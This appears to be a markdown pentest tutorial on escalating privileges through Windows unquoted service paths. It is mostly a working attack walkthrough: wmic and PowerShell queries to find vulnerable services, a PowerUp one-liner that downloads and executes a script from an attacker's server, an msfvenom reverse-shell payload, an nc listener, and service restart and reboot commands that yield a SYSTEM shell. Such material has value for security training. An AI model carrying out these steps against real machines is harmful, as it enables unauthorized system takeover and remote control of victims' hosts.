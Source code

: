 Unquoted Service Paths occur when a Windows service executable path contains spaces and isn't enclosed in quotes. Attackers can exploit this by placing a malicious executable in a higher directory level, which the system might execute instead of the legitimate service.

The Attack
---

For example, if the path to a service is the following: ```C:\Program Files (x86)\lols Program\bin\lol.exe```, this could be exploited by placing a binary as follows:

* `C:\Program.exe`
* `C:\Program Files (x86)\lols.exe`
* `C:\Program Files (x86)\lols Program\bin\lol.exe`


Identifying Unquoted Service Paths
---
1. Using `cmd`:
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
2. Automated scripts such as WinPEAS will also be able to identify them.
3. Metasploit exploit : ```exploit/windows/local/trusted_service_path```, once a Meterpreter session has been obtained.
4. PowerUp:

```
# find the vulnerable application
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-python-server/PowerUp.ps1'); Invoke-AllChecks"

...
[*] Checking for unquoted service paths...
ServiceName   : BBSvc
Path          : C:\Program Files (x86)\lols Program\bin\lol.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'lol' -Path <HijackPath>
...
```

**Writing the Malicious Binary**
--


The next step is to add the malicious executable that will replace the service executable when it starts. In order for this to work, the current user ***requires write access*** to the service path.

This can be checked using the `icacls` Windows utility:
```
icalcs "C:\Program Files (x86)\lols Program"
```

NOTE: The main icacls permissions are as follows:

    F – Full access
    M– Modify access
    RX – Read and execute access
    R – Read-only access
    W – Write-only access
1. `MSFvenom` can be used to generate a reverse shell for us:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<our ip> LPORT=1234 -f exe > shell.exe
```
2. Then transferring the ```shell.exe``` file to the Windows victim machine using the Python web server, placing it in the ```C:\Program Files (x86)\lols Program``` or `C:\Program Files (x86)\` folder and calling it `lol.exe`.


3. The next step is to set up a `nc` listener, which will catch our reverse shell when it is executed by the victim host:
```
nc -nlvp 1234
```
4. The service can then be started or stoped with the following commands:
```
sc stop lol.exe
sc start lol.exe
```
Finally, we will capture the reverse connection and got the granted SYSTEM shell.



>Access to start or stop services is often denied, especially for normal users

The solution to this problem, if the service is set up to start at boot, is to restart the machine. The following command can be used to verify whether the current user has access to do so:
```
whoami /priv
```
![Screenshot from 2024-09-30 00-48-39](https://github.com/user-attachments/assets/2d05af9a-c33b-4251-86f2-035a7ad77bb3)

It looks like the current user has access to restart the machine. The following command can be used to reboot the box:
```
shutdown /r /t 0
```
After that we will capture the reverse connection and got the granted SYSTEM shell.



